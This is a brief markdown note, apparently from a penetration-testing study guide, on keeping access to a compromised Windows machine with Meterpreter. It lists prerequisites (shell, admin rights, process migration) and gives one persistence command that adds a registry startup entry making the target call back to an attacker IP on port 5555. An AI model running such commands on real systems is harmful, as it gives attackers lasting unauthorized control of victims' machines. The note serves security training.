 # Persistence via Meterpreter

### Checklists

We should have

* Shell on the target machine
* Priviledges escalated to Admin
* Migration of our payload to a stable process (e.g explorer.exe)

***

### Steps

In the Meterpreter session

`run persistence -X -i 10 -p 5555 IP`

* X means run on system startup
* i means the connection attempt interval
* p means port to connect to and the ip

It makes an entry in the registry

***
